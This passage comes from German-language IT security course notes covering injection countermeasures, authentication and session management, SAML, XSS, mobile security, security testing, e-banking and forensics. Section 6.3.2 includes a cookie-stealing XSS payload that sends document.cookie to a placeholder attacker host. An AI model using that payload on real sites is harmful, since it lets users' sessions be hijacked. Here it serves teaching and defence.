Kann ein Angreifer über Injection User Defined Functions erzeugen, kann er unter Umständen aus der DB ausbrechen und z.B. ein Tunnel nach aussen aufbauen, durch den er weiteren Code ausführen kann.


**6.1.8. Massnahmen gegen Injection**

* Escaping (Steuerzeichen wie ' oder -- escapen) -> keine 100%ige Sicherheit
* White/Blacklisting von Zeichen beim Input -> Nur mittelmässige Sicherheit
* Prepared Statements -> Sicher
* KEINE Dynamischen Prepared Statements!
* Rechte des DB Users beschränken -> darf nur das, was er wirklich muss
* Application Server Rechte einschränken -> darf nur das tun, was er wirklich muss
* Kein direkter Zugriff auf Application- und DB-Server
* Richtiges Error Message Handling


**6.1.9. Prepared Statement Vulnerability**

Kommt innerhalb eines Prepared Statement ein dynamischer Parameter vor, so ist dieser ebenfalls verwundbar.

.. code-block:: php

	$stmt = prepareStatement("UPDATE COFFEES SET SALES=? WHERE COF_NAME "+ "LIKE '" + name + "'"); // insecure usage


6.2 Authentication & Session Management
---------------------------------------

**6.2.1. Begriffe**

Identication
	Sich ausweisen (wer man ist)
Authentication
	Identität nachweisen
Authorization
	Welche Operationen ein User mit der App machen darf
Identification
	Verifizieren der Identität
	
	
No Authentication without Identification, may be provided at same time though! (Login)
Authorization is ascertained after authentication.


**6.2.2. Anforderungen stellen Authentication & Session**

Authentication
	* Allg
		* Keep design simple
		* Never invent own cryptography
	* Password rules
		* Password Strength Controls
		* Only store passwords in HASHED form, with Salt for every user
		* Hash ASAP, never compare plain-text
		* Secure Password Recovery Mechanisum (Security Patterns!)
	* HTTPS
		* Don't submit password over plain-HTTP!

Session
	* Uniqueness
		* Each session must have a unique identifier
	* Unpredictable
		* It shall not be possible to predict an identifier
	* Consistency and Logging
		* A session must be identifiable at all tiers (mapping from 
		* external to internal session ID
		* It should be possible to log session information at all tiers

		
**6.2.3. drei Faktoren der Authentication**
 
* Something you know - Passwort
* Something you have - Token Generator / Smart-Card
* Something you are - Bio (Iris, Finger, etc)

Strong authentication - 2 or more Auth. (multifactor login)


European Commission definition of strong authentication:
a procedure based on the use of two or more of the following elements– categorised as knowledge, ownership and inherence:

i) something only the user knows, e.g. static password, code, personalidentification number;
ii) something only the user possesses,e.g.token, smart card, mobile phone;
iii) something the user is, e.g. biometric characteristic, such as a fingerprint.
 
In addition, the elements selected must be mutually independent, i.e. the breach of one does not compromise the other(s). At least one of the elements should be non-reusable and non-replicable (except for inherence), and not capable of being surreptitiously stolen via the Internet. The strong authentication procedure should be designed in such a way as to protect the confidentiality of the authentication data.


**6.2.4. "HTTP Protocol based Authentication", "Application Login" und "HTTPS Protocol based Authentication"**
 
HTTP Protocol based Authentication
	* "Authorization" HTTP Header. Böööse (Wrap in HTTPS!)
	* Authorization: Basic base64(user + ":" + password)
Application Login
	* Authentication basierend auf Login-Credentials (meist Username, Passwort) und verglichen in Applikation (statisch, DB, PW-File)
HTTPS Protocol based Authentication
	* HTTPS erstellt Verbindung mit Server, erhält SSL Session ID. (Auth durch BASIC Auth???)


**6.2.5.  Form autocompletion**

* Autocompletion hinterlässt z.B. E-Mail/Username (Identification). HTML-Attribute autocomplete="off" ist aber non-standard. Username-Field mit random-Wert ergänzen.


**6.2.6. Back Button Relogin Vulnerability**

* Mit dem Back-Button wird der alte HTTP-Kontext (inkl Cookies) mitgeschickt. Wird ein Session nach dem Logout nicht zerstört ist der User wieder eingeloggt. (Public Computer Back-Attack)
* Logout --> invalidate Session on Server, Return new Session, Redirect to different Page


**6.2.7. User Enumeration**

* Kann ein Angreifer dank einer Fehlermeldung die Existenz eines Benutzers bestätigen (Username does not exist => Password is wrong), macht es ihn seine Aufgabe wesentlich einfacher. Usernames: admin, guest, superadmin, sa, etc.
* (Fehler)Meldung bei Login muss zwingend generisch gestaltet werden (Bunutzername oder Passwort falsch.)


**6.2.8. SAML**

* Die Security Assertion Markup Language (kurz SAML) ist ein XML-Framework zum Austausch von Authentifizierungs- und Autorisierungsinformationen. SAML sollte vor allem für Webservices angeboten werden.
* SAML assertions werden vom Identity Provider zum Service Provider übertragen. Assertions sind Aussagen statements, die ein Service Provider nutzt, um über das Zulassen eines Zugriffs zu entscheiden. Drei Typen von statements werden von SAML genutzt:

Authentication statements: 
	Zusicherung einer Authentifizierung für Subjekt S zur Zeit T mittels M. (für Single Sign-On)
Attribute statements: 
	Zusicherung, dass ein Subjekt S über Attribut A verfügt mit dem Wert a. (für verteilte Transaktion/Autorisierung)
Authorization decision statements: 
	Autorisierung bestimmter Ressourcen.

	
* Sehr komplex, hat sich nicht bewährt.


**6.2.9. SAML Begriffe IdP und SP**
 
IdP
	Identity Provider. z.B. Login to Website via FB, FB ist dann Identity Provider vom User.
SP
	Service Provider. Provides Webservices. Relies on IdP for Authentication
IdP-Initiated
	In IDP Init SSO the Federation process is initiated by the IDP sending an unsolicited SAML Response to the SP.
SP-Initiated
	In SP-Init, the SP generates an AuthnRequest that is sent to the IDP as the first step in the Federation process and the IDP then responds with a SAML Response.

.. figure:: img/rq-6.2.9.1.gif

   IdP-Initiated


.. figure:: img/rq-6.2.9.2.gif

   SP-Initiated


**6.2.10. SAML based SSO**

.. figure:: img/rq-6.2.10.1.png

   Post Bindings


.. figure:: img/rq-6.2.10.2.gif

   Artefakten


**6.2.11. Attacken für SAML & Gegenmassnahmen**

* Replay - Attack
	* Use SSL
	* Opportunistic programming (just use what you need)
	* Use Library with full SAML support
* DoS
	* DoS Protection / Mitigation


**6.2.12. Attacken gibt es, um Browser Sessions zu klauen**

Session-Sniffing: 
	Capture Session (also Cookie Data) on the wire. Mit HTTPS etwas schwieriger
XSS: 
	Cross-Site-Scripting


**6.2.13. Warum keine URL-based Sessions**

* Wird ein Image von einem Host geladen wird immer ein Refer übermittelt. Ist der Session-ID im URL drin, gelingt es dem Angreifer sehr einfach an die Session-ID's zu kommen.
* Bei sehr schlechter Implementierung: User kommt via Goolge-Session auf Webseite, User loggt sich ein, Tada alle weitere Benutzer, die via Google kommen sind eingeloggt.


**6.2.14. Session Fixation / Massnahmen**

Session fixation attacks attempt to exploit the vulnerability of a system which allows one person to fixate (set) another person's session identifier (SID).

* Attack via accept any SID (Eve zwingt Adam dazu Link mit von Eve erzeugten SID zu öffnen, Server akzeptiert SID)
* Attack via server generated SID (Eve speichert ihre Session-ID - erhalten vom Server, zwingt Adam dies zu verwenden aka. Link, etc)
* Attacks using cross-site cooking (does not work with modern browsers) - Set Session-ID of another Domain
* Attacks using cross-subdomain cooking - Set Session-ID for entire domain and not just sub-domain.

Massnahmen:

* Do not accept session identifiers from GET / POST variables
* Change Session-ID after Logon
* Store session identifiers in HTTP cookies
* Utilize SSL / TLS Session identifier
* Accept only server-generated SIDs
* Time old SID's
* Destroy session if Referrer is suspicious


**6.2.15. restriktiven Cookie Parameter**

Secure Cookies
	only via HTTPS
HTTP Only
	disallow Javascript from reading cookies.


	
6.3 XSS
-------

**6.3.1. Same Origin Policy**

Protocoll+Host+Port stimmen überein

.. image:: img/rq-6.3.1.1.png


**6.3.2. über eine XSS Lücke Sessions klauen**

XSS Allg: Inhalt wird nicht korrekt escaped und wird in dem Browser "ausgeführt" via Javascript.

Beispiel:

::

	hxxp://www.example.com/index.php?search=<script>location.href = 
	'http://www.Yoursite.com/Stealer.php?cookie='+document.cookie;</script>


* Stealer.php macht dann selber ein redirect zum refer. Benutzer merkt fast nichts.
* Möglich ist auch die Einbindung vom Images (1x1 transparent gif) und cookies als query anhängen. 


**6.3.3. Arten von XSS**
 
Stored
	* Wird in Applikation (DB, etc) gespeichert und gerendert
	* Forum, comments + messages
	* Profile (Signatur, Username)
	* Mail (HTML)
Reflected
	* Non Persistent
	* 404 - Pages, The Page <script>…</script> does not exist
	* Application Error Pages <script>..-</script> not valid for this field
	* Search Pages
DOM injections
	* Wird Client-Seitig eingebunden durch dynamische JS anzweisung
	* Z.B. Sprachparameter in URL, Auslesen mit JS, erstellen vom <h1> Element

	
**6.3.4. Welche Massnahmen gegen XSS**
 
* #0 - Never Insert Untrusted Data Except in Allowed Locations
* #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
* #2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
* #3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
* #4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
* #5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
* #6 - Sanitize HTML Markup with a Library Designed for the Job
* Bonus #1: Use HTTPOnly cookie flag
* Bonus #2: Implement Content Security Policy



7 Mobile Security
=================

**7.0.1. "Mobile Applications Plattform"**

.. image:: img/rq-7.0.1.1.png


**7.0.2.  OWASP im Threat Modelling Process**
 
Mobile Application Architecture 
	This area describes how the application is designed from device specific features used by the application, wireless transmission protocols, data transmission mediums, interaction with hardware components and other applications.
Mobile Data 
	What data does the application store and process? What is the business purpose of this data and what are the data workflows?
Threat Agent Identification 
	What are the threats to the mobile application and who are the threat agents. This area also outlines the process for defining what threats apply to the mobile application.
Methods of Attack 
	What are the most common attacks utilized by threat agents. This area defines these attacks so that controls can be developed to mitigate attacks.
Controls 
	What are the controls to prevent attacks? This is the last area to be defined only after previous areas have been completed by the development team.


**7.0.3. Beispiel Moves**

* Verwendung von Location Data + Accelerometer. Stellt die tägliche Aktivität da.
* Daten: Location (GPS, Wi-Fi), Accelerometer samples, places, Device data
* Speichern: everywhere and anywhere. Daten werden mit Plugins geteilt…
* Schutz?


**7.0.4. Angriffskanäle bei Smartphones**

* Social Engineering
* Drive-by Exploitation
* Phishing
* Network Services (Man-In-Middle WLAN)
* WebView
* Market Place / direct install
* Physical Attacks (USB Aufladeports in Hotels..)


**7.0.5. OWASP Risiken identifizieren**
 
1) Take the list of all sensitive data (or information to protect) listed in Section Mobile Data
2) Make a list of all the ways to access this data
3) Identify the attackers using the ways i.e. the medium to access sensitive data 


**7.0.6. Thread Agents Kategorien**

Human Interaction vs Automated Programs

.. image:: img/rq-7.0.6.1.png


**7.0.7. Angriffsszenarien bei einem Mobile Device**

* Local Memory / Storage based methods (“Method aimed to read the local application memory”)
* OS and application level methods
* Endpoints based methods (Webs Servise, Malware in app store, Cloud Storage)
* Communication Channel Based Methods (Wireless interfaces based methods)
* Miscellaneous Methods (GPS exploit, microphone recordings)


**7.0.8. Apps Rechte und Speicherzugriff**

* Apps werden grundsätzlich im User-Mode ausgeführt. Bei Rooted/jailbraked devices kann ein App auch in kernel-mode ausgeführt werden.
* Flash Memory, Internal Memory, SD


**7.0.9. Malware im App Store**

* Android: App wird gescannt nach bekannte Malware, User melden Probleme mit App
* iOS: Auch gescannt, manuell überprüft. (schwieriger)
* Angriff auf AppStore selbst

.. figure:: img/rq-7.0.9.1.png

   Lines of Defense


**7.0.10. Angriffe Auf Kommunikationschannels**

* Man in the middle (MiTM) attacks which can steal data packets including SMS or voice packets
* Stealing data when its in-transit using wireless channel like 802.11, NFC based data exchange or Bluetooth based data exchange. Application Level Attacks
* Targeting malicious corporate network. (e.g. VPN Keys, etc)


**7.0.11. Flexispy und Probleme**

* Flexispy captures the content of emails, texts, call log details and GPS coordinates. Flexispy also gives customers the ability to listen to live calls. Customers are alerted that the mobile device with the software installed is on an active call. 

Problem
	* Kann beliebig eingesetzt werden. Verletzung Privatsphäre.
	* Device muss ge-Jailbreaked sein -> führt zu weitere Probleme, hebt Schutz auf.

**7.0.12. Sicherheitsprobleme im Smartphone Umfeld**

.. figure:: img/rq-7.0.12.1.png

   PC-Welt


**7.0.13. Mobile Security Top 10 Listen**

ACHTUNG! Die Folien weisen eine andere Reihenfolge auf… Unten die aktuellste Reihenfolge nach Bedrohung 201X.

M1 - Weak Server Side Controls
	Alles was  nicht auf dem Phone stattfindet. z.B. SQL Injection auf Server-Side (OWASP Top 10)
M2 - Insecure Data Storage
	* Sensitive Data nicht verschlüsselt. OS spezifische Verschlüsselungsmöglichkeiten (Stores) nicht verwendet.
	* World readable Configs
M3 - Insufficient Transport Layer Protection
	Kein SSL, SSL Warnungen ignoriert, Cert Chain nicht bestätigt, schlechte Implementierung von SSL (iOS lässt grüssen)
M4 - Unintended Data Leakage
	Passwort in Log ausgegeben (clap, clap). Review third party libs.
M5 - Poor Authorization and Authentication
	Verwendung von DeviceID oder SubscriberID as einziger Auth-Methode.
M6 - Broken Cryptography
	Key mit Verschlüsselte Datei abspeichern bringt nichts. OS-Features verwenden
M7 - Client Side Injection
	Pure web apps (XSS). Phone Reset Aufruf via tel://resetcodehere# möglich!
M8 - Securty Decisions Via Untrusted Inputs
	App Aufrufe via eigene Handlers (z.B. skype:23487234?call) => Anruf wird direkt betätigt. Immer User nach eine Bestätigung Fragen von externe Quellen.
M9 - Improper Session Handling
	* Sessions leben länger auf dem Client. Absichern, dass ein Session revoke (echo to server, reponse denied, destroy session)
	* High entropy sources!
M10 - Lack of Binary Protections
	* Analysis byte-code. (API Keys, Passwörter, Sensitive Bussiness-Logik)
	* Keine God-Mode Code!



8 Smartphone Security
=====================

**8.0.1. Risiken eines kompromitierten Gerätes**

Privat
	* Konto Infos, Social Engineering
Business
	* Wirtschaftsspionage
	* Zugriff auf interne Netzwerk-Firma (call-home)

	
**8.0.2. Sicherheitsmechanismen Hardware**

Schlüsselspeicher (Keychain)
	* Sichere Ablage von «sensitiven» Informationen
	* Schutz gegen unberechtigten Zugriff auf dem Gerät, im Backup, usw.
Geräte-PIN
	* Schutz gegen interaktive Verwendung des Gerätes
	* Schutz gegen Zugriff über andere Schnittstellen
Speicherverschlüsselung
	* Schutz gegen physischen Zugriff auf den Speicher
	* Schutz gegen Zugriff mit modifiziertem Betriebssystem


**8.0.3. Sicherheitsmechanismen Betriebssystem**

Update-Funktionalität
	* Schnelle Aktualisierung  von Betriebssystem und Apps
Zugriffskontrolle auf OS-Stufe
	* Optimale Trennung von Anwendungen auf Betriebssystem-Stufe
	* Einsatz von Betriebssystem-Benutzern mit eingeschränkten Rechten
Integritätskontrolle auf OS-Stufe
	* Schutz gegen «Rooting» / «Jailbreaking»
	* Sicherstellen, dass alle Sicherheitsmechanismen intakt sind


**8.0.4. Sicherheitsmechanismen um Apps abzusichern**

Sandbox
	* Logische Trennung (Separierung) von Apps
	* Zugriffe auf Betriebssystem-Funktionen und Hardware einschränken
Integritätskontrolle Apps
	* Inhaltliche und technische Kontrolle der Apps im Store
	* Verwendung von digitalen Signaturen
Rechtesteuerung
	* Vergabe von Zusatzrechten durch Benutzer (z.B. Zugriff auf GPS, Internet)
Backup
	* Regelmässige Erstellung von Backups mit einfacher Restore Möglichkeit
	* Sichere Ablage der Backup-Daten


**8.0.5.  iOS und Android Daten Verschlüsselung**

iOS
	* Keychain in SQLitte Datenbank abgelegt. Eine Zeile pro Keychain
	* Apps haben Zugriff nur auf ihre eigenen Einträge
	* Apps können über Zugriffsklassen bestimmen (vor/nach PIN-Eingabe) und wo (thisDeviceOnly, Cloud!)
	* Bad: Kopie der Keychain landet im Backup und kann entschlüsselt werden.
	* Geräte haben Crypto-Chip und eingebrannten HUID.
	* Jede Datei wird mit einem individuellen Schlüssel verschlüsselt
	* Gut: Verschlüsselung ist nicht deaktivierbar
	* Bad: Verschlüsselung ist nicht abhängig vom Geräte-PIN (kann ohne PIN vollständig aufgestartet werden)

Android
	* Speicherverschlüsselung mit dm-crypt (Linux Kernel)
	* Möglichkeit zur Verschlüsselung der SD-Speicherkarte (Herstellerabhängig)
	* Verschlüsselung ist abhängig von Geräte-PIN -> Kein Aufstarten ohne PIN
	* Bad: Verschlüsselung ist nicht per Default aktiviert

	
**8.0.6. Signaturmechanismen iOS und Android**

iOS
	* Nur von Apple signiert Apps lassen sich installieren
	* Apps sind gegen unberechtigte Modifikation vor der Installation geschützt

Android
	* Durch Entwickler signiert (keine Überprüfung Zertifikatskette)
	* Apps aus dem App-Store sind zusätzlich Signiert durch Google

	
**8.0.7.  Funktionalität eines gestohlenen iPhones, leakbare Daten**
 
Grundsätzlich
	teurer Papiergewicht

System Partition
	Dump der Partition möglich, sobald Gerät gestartet ist. Daten können gelesen werden

Data Partition
	Dump der Partition möglich, sobald Gerät gestart ist. Inhalt der Files ist aber verschlüsselt!

	
**8.0.8. Filesystem- und Fileverschlüsselung**

.. figure:: img/rq-8.0.8.1.png

   Filesystem


.. figure:: img/rq-8.0.8.2.png

   File


**8.0.9. Löschen von Files/Daten / Wiederherstellung**

Löschen
	Beim Löschen eines Files wird der Schlüssel der Datei überschrieben (Daten sind dort, aber sehen wie garbage aus)

Wiederherstellung
	* Undelete ist grundsätzlich nicht möglich
	* Über Journal-Funktionalität möglich (ist jedoch sehr klein 8 MB).
	* iPhone raw NAND recovery and forensics (requires jailbroken devices, direkten Zugriff auf Flash-Speicher)

	
**8.0.10. Forensic Tools**
 
(Vorausgesetzt ist ein Jailbreak!)
 
* Bruteforce auf die PIN
* Dumpen von Keys
* Physical (dd if=/dev/disk0s1s) und Logical (via FS)  Data Aquisition
* Daten von Apps werden meistens via SQLite gespeichert und dann lediglich mit Deleted vermerkt.



8.1 EJPD Architektur
--------------------

**8.1.0. Warum ist mTan unsicher?**

The security of this scheme depends on the security of the mobile phone system.

In South Africa, where SMS-delivered TAN codes are common, a new attack has appeared: SIM Swap Fraud. A common attack vector is for the attacker to impersonate the victim, and obtain a replacement SIM card for the victim's phone from the mobile network operator. The victim's user name and password are obtained by other means (such as keylogging or phishing). In-between obtaining the cloned/replacement SIM and the victim noticing their phone no longer works, the attacker can transfer/extract the victim's funds from their accounts.

It is possible to access a online bank on the same devices as the mTan which then reduces the security drastically! (no second device)


**8.1.1. MobileID**

* Eine neue Authentisierungsmittel für Single-Sign-On.

Wie kam es dazu?
	Kantonale Polizeikorps möchten mit iOS Geräten auf das SSO-Portal zugreifen.  Login via SSO erfolgt normal über Client-Zertifikaten via Smart-Card. SmartCard-Anbindung an mobile Geräte ist nur schwer und umständlich

Idee
	* SIM-Karte wird als Träger eines privaten und eines öffentlichen Schlüssels (analog Smartcard)
	* Einsatz von Mobile Device Management
	* Zertifikate der Swisscom und AdminPKI werden akzeptiert.

.. image:: img/rq-8.1.1.1.png


* Über Mobile ID lassen sich die jeweiligen digitalen Identitäten eindeutig feststellen; Zugänge und Interaktionen werden effektiv geschützt. https://www.youtube.com/watch?v=WfKMWcDTG80
* Vertraut muss Swisscom für die Authentifizierung.



9 Sicherheitsüberprüfung
========================

**9.0.1. Treiber zur Durchführung von Sicherheitsprüfungen**

Grundsätzlich: Risiken

.. image:: img/rq-9.0.1.1.png


3 Motivationsgründe:

Firmen interne Anforderung
	* Unternehmen fordern im Rahmen von Projekt-Abnahmen eine Sicherheitsprüfung durch eine externe Firma.
	* Sicherheitssensitive Unternehmen verlangen für Anwendungen, welche über Internet erreichbar sind eine Sicherheitsprüfung.
	* Nachweis von sicherheitsrelevanten Bedenken («Facts»-Beschaffung)
	* Nachweis für Handlungsbedarf (Budgetbeschaffung)
	
Regulatorische Anforderungen
	* Regulatorische Bestimmungen erfordern eine jährliche Sicherheitsprüfung von kritischen Anwendungen. Solche Anforderungen sind aktuell bei Finanzdienstleistern, Versicherungen und Kreditkarten-Unternehmen vorhanden.

Qualitätsnachweis
	* Zertifizierung («Güte Siegel»)


**9.0.2. Bedeutung aller Ebenen**

Auf alle Ebenen der IT Cremeschnitte befinden sich mögliche Bedrohungen


**9.0.3. Testing Actions, Testing Types und Testing Teams**
 
Testing Actions
	* Security review
	* Security assessment
	* Security audit
	* Penetration testing
	* Vulnerability testing
	* Security scan
	
Testing Types
	* Black Box test
	* Gray Box test
	* White Box (Glassbox) test
	
Testing Teams
	* Tiger Team, White Hat 
	* Hacker, Ethical Hacking

.. note:: Tiger Team: a team of specialists in a particular field brought together to work on specific tasks.


**9.0.4. Black- und White Box testing**

Blackbox-Testing
	Black Box Testing, also known as Behavioral Testing, is a software testing method in which the internal structure/design/implementation of the item being tested is not known to the tester. These tests can be functional or non-functional, though usually functional.

Whitebox-Testing
	White Box Testing (also known as Clear Box Testing, Open Box Testing, Glass Box Testing, Transparent Box Testing, Code-Based Testing or Structural Testing) is a software testing method in which the internal structure/design/implementation of the item being tested is known to the tester.

	
**9.0.5. Begriffe**

a. Security Audit
	Untersuchungsverfahren die dazu dienen, Prozesse hinsichtlich der Erfüllung von Anforderungen  und Richtlinien (z.B. Standards) zu bewerten.

b. Review
	Beurteilung  von Software (Softwaretests) oder von Konzepten.

c. Penetrationstests
	Überprüfung  der Sicherheit von Systemen und Anwendungen (Netzwerkkomponenten, Server, Softwarekomponenten)  mit Mitteln und Methoden, die ein Angreifer (ugs. "Hacker") anwenden würde, um unautorisiert in das System einzudringen (Penetration). 


**9.0.6. False Positives und False Negatives**

False Positives
	Fehlalarm
False Negatives
	Miss

.. image:: img/rq-9.0.6.1.png


**9.0.7. Vor- und Nachteile von Black- und White Box Tests**

Blackbox

Whitebox
	* Wenig Aufwand seitens Kunde
	* Awareness-Effekt
	* Weniger unbekannte Risiken (weniger „Misses“)
	* Weniger Nacharbeit
	
* White-Box ist effizienter in Bezug auf den Aufwand zur Verbesserung der Situation
* White-Box führt seltener zu Falschaussagen (False-Positives)
* Black-Box ist attraktiver/effizienter in Bezug auf Sensibilisierung


**9.0.8. Begriffe im Zusammenhang mit Prüftiefe**

a. Plausibilisierung
	* Es kann nicht immer die Richtigkeit des Wertes oder Ergebnisses verifiziert werden, sondern es soll eine gegebenenfalls vorhandene offensichtliche Unrichtigkeit erkannt werden. 
	* Ein Vorteil der Plausibilitätskontrolle ist, dass sie mit lediglich geringem Aufwand durchgeführt werden kann, ein Nachteil ist, dass weniger offensichtliche Unrichtigkeiten in ihrem Rahmen nicht erkannt werden.
 
b. Inspektion
	* Die Inspektion dient der Feststellung des ordnungsgemässen Zustandes eines Gegenstandes, eines Sachverhaltes oder einer Einrichtung. 
	* Die korrekte Funktion wird dabei üblicherweise nicht verifiziert. z.B. FirewallKonfiguration, Standardkomponenten, etc

c. Prüfung
	* Beurteilung einer Leistung. Der zu prüfende Bereich oder Gegenstand wird gegen einen definierten und erwarteten Zustand, Funktion verifiziert. 
	* Aufwändiges Verfahren, bietet jedoch höchstmögliche Zuverlässigkeit.


**9.0.9. Ablauf SP**

.. image:: img/rq-9.0.9.1.png


**9.0.10. Vor- und Nachteile automatischer Tests/Scanners**

Vorteile
	* Sicherstellung der Vollständigkeit
	* Schnelle und günstige Aussage zu Systemzustand (tendenz)
	* Kann Anhaltspunkte für vertiefte Prüfungen geben

Nachteile
	* Grosse Anzahl von false positives
	* Grosser Aufwand für die Bereinigung der Meldungen. Die Beurteilung von Schwachstellen der Scanner (CVE) kann nicht  immer eins zu eins übernommen werden. 
	* Aufwändige  Arbeit, Risiko-Einschätzung kann nur Ansatzweise durch den Scanner übernommen werden.


**9.0.11. SP Dokumentation**

1) Reports erstellen
	* Empfänger-  (Stufen) gerecht aufbereiten (Management, Projektleiter, Techniker)

2) Resultate mit Kunde abgleichen
	* Mängel diskutieren und verifizieren
	* Evtl. Schwachstellen präsentieren (und demonstrieren)
	* Risikobeurteilung mit Kunden besprechen. (Abweichende Beurteilung zwischen Kunde und Prüfer sind möglich)
 
3) Ergebnisse präsentieren
	* Ergebnisse wenn möglich mit betroffenen Personen diskutieren, Problem aufzeigen. Das garantiert eine «langfristige» Verbesserung. 


**9.0.12. Aufwände**

a. Application Security Review (White-Box)
	5 bis 20 und mehr Personen-Tage

b. Penetrationstest (Black-Box)
	2 bis 5 und mehr Personen-Tage

c. Network Security Review (Grosse Netzwerke)
	5 bis 20 und mehr Personen-Tage

**9.0.13. typische Fehler, die bei Sicherheitsprüfungen gemacht werden**

* Konzentration auf Schwachstellen anstatt auf Risiken
* Prüfbereich (Scope) nicht richtig definiert
* Kompetenz (technisch, sozial und psychologisch) der Prüfer ungenügend
* Haltung gegenüber den Gesprächspartnern (Manager, Entwickler, Betreiber) zu wenig kritisch


**9.0.14. Unterschiede Blackbox / Whitebox in Bezug auf das Wissen des Angreifers und des Angegriffenen**

.. image:: img/rq-9.0.14.1.png


**9.0.15. Im Rahmen eines Prüfauftrages soll festgestellt werden, ob die eingesetzten Firewalls einen «angemessenen» Schutz bieten. Geben Sie Beispiele an, was auf den folgenden Ebenen geprüft werden sollte?**

Prozessebene
	* Ist der Betrieb angemessen organisiert? (Change Management, Incident Management, …), Einhaltung von Richtlinien, Standards?

Applikationsebene
	* Sind die Firewall-Regeln sinnvoll und richtig? Sind die Zonen sinnvoll festgelegt (Netzwerk-Architektur)?
 
Infrastrukturebene
	* Ist die Plattform richtig aufgesetzt (HW, OS, Patches, Updates, System Hardening)

	
**9.0.16. Tools für automatisierte Tests**

* Port Scanner
* Network Enumerators
* CGI-Sanner
* Web Application Security Scanner



10 E-banking & Mobile Banking
=============================

10.1 E-banking
--------------

10.1.1. mögliche Angriffspunkte beim e-Banking**
 
Ein seriöser Bank verwendet stehts ein zwei-Gerät-Lösung. Zum PC (1) kommt immer einen zusätzlichen Gerät (2) hinzu (Natel, Token Generator, Postcard-Calculator,…).

.. image:: img/rq-10.1.1.1.png


* Malware auf Client
* Hardware Keyloggers
* Clickjacking
* Man-In-the-Middle


**10.1.2. Angriffspunkte bei der Authentifizierung mit mTan**

Das mTAN verfahren schützt gegen Phishing des Passworts, in dem eine mTAN ausgelöst wird. (2-Step Auth)

Authentication
	Schützt nicht gegen Man-In-the-Middle des Browsers

Transaction Verification
	Schützt gegen Man-In-the-Middle (Verifizierung des Transactions in mTAN)

	
**10.1.3. Vergleichen Sicherheit der Personlichen Daten (Kontoeinsicht) und die Sicherheit einer Transaktion (Integrität) bei mTan**

Siehe 10.1.2


**10.1.4. Challenge-Response Tokens**

* Challenge-Reponse bietet grundsätzlich die gleiche Sicherheit wie beim mTAN, ausser bei der Transaction Verfication. (Könnte man wiederum umgehen mit Malware auf Mobile - ist aber sehr aufwendig)

* Beim mTAN werden Infos zur Transaction per SMS verschickt (Visual verification). Beim Challenge-Response wird nur nach einem erneuten Challenge-Reponse-Token verlangt. (Ausser man müsste den Betrag und Kontos eingeben als Parameter für die Tokenberrechnung - was aber nicht geschieht)


**10.1.5. Starke authentisierung**

Siehe 6.2.3


**10.1.6.  Malware auf dem Computer und Man-in-the Middle**

.. image:: img/rq-10.1.6.1.png


* Loging + Reading Access: Kritisch
* Transaction: für div. Verifikationsmethoden nicht kritisch


10.2 Mobile Banking
-------------------

**10.2.1. Malware-Problematik beim Mobile Banking**

Die Risiken sind wesentlich höher als beim e-Banking, da man allenfalls nur mit einem Gerät arbeitet (mTAN, mobileID, PhotoTan..)

.. image:: img/rq-10.2.1.1.png


**10.2.2. technischen Möglichkeiten zur Verbesserung der Mobile Banking Sicherheit**

* Check certificates against specific trust store
* Protect data through keychain protection mechanisms
* Prevent screenshots
* Jailbreak / rooting detection
* Version Control of App / OS


**10.2.3.  PhotoTAN App von Raiffeisen**

* Public-Private Key Encryption
* Bei diesem Verfahren codiert Raiffeisen E-Banking die Login- und Auftragsdaten in einem farbigen Mosaik. Dieses farbige Mosaik wird mittels Ihrem persönlichen Smartphone entschlüsselt und der zugehörige Freigabe-Code auf dem Smartphone-Display angezeigt. Das angezeigte Mosaik kann nur durch Ihr Smartphone entschlüsselt werden, da Ihr Smartphone mit einem Ihnen persönlich zugewiesenen Schlüssel einmalig aktiviert wurde. Einem E-Banking-Vertrag können mehrere Smartphones bzw. einem Smartphone können mehrere E-Banking-Verträge zugewiesen werden. PhotoTAN funktioniert ohne Internet- bzw. Telefonverbindung.

.. image:: img/rq-10.2.3.1.png


**10.2.4. Konzepte aus der PhotoTAN App für die Mobile Banking App**

Beim Login-Prozess müssen Sie nur noch Vertragsnummer und Passwort eingeben. Danach entschlüsselt die PhotoTAN App im Hintergrund den PhotoTAN-Code und gibt diesen automatisch über die Raiffeisen App an das Mobile Banking zurück. 


**10.2.5. Sicherheitsmassnahmen für die Mobile Banking App**

* OS des Betriebssystems
* 2 Factor Auth
* Non-reusable
* Non-replicable


**10.2.6 mehrfache authentisierungslevel**

Add more Auth for each Level.

.. image:: img/rq-10.2.6.1.png



11 Forensik
===========

**11.0.1. digitale Forensik**

Digitale Forensik != IT != CSI

Im Wesentlichen geht es um die Beantwortung der 7 W‘s:

Wer?
	* Wer bewegte bzw. veränderte Daten? Wer war anwesend und beteiligt?
Was?
	* Was wurde genau getan?
Wann? 
	* Datum und Uhrzeit
Wo? 
	* Genaue Ortsangabe.
Womit?
	* Welche Tools und/oder welche physikalischen Mittel wurden eingesetzt?
Wie?
	* Wie wurde vorgegangen?
Warum?
	* Warum wurde eine Änderung, Bewegung und/oder Abweichung vorgenommen?


**11.0.2. Bedrohungen / Tatwerkzeuge, die Cyberkriminelle nutzen**

1. Mobile Endgeräte
2. Soziale Netzwerke
3. Kritische Infrastrukturen (z. B. Verkehrsleitsysteme)
4. Vertrauenswürdige Infrastrukturen (z. B. Zugang geschützt)
5. Cloud Computing
6. Big Data (z. B. gesammelte Daten zu Telefonaten)


**11.0.3.  Warum werden sichergestellte Datenträger kopiert, bzw. über ein Gerät angeschlossen, das Schreibschutz gewährleistet**

Sodass Daten nicht auf dem Datenträger geändert werden. Wäre es möglich eine Datei zu ändern, könnte man falsche Daten einspeisen oder Daten manipulieren. Man braucht auch immer einen Vergleichsmöglichkeit (Original)


**11.0.4. Aufbereitung von Sichergestelltem Material**

* Sobald Filesystem erkannt wird, werden alle Dateien aufgelistet (Bilder, Dokumente, etc)*, eine HASH davon gemacht und mit diversen Datenbanken verglichen.
* Whitelist-DB => manuell schnell überflogen (zwingend Bestätigung vom Auswerter benötigt)
* Known-Hashes => Vergleich der Bilder
* Unknown-Hashes => Kiddy Porn / Not Kiddy Porn (bei Unklarheiten, drei unabhängige Personen Fragen)
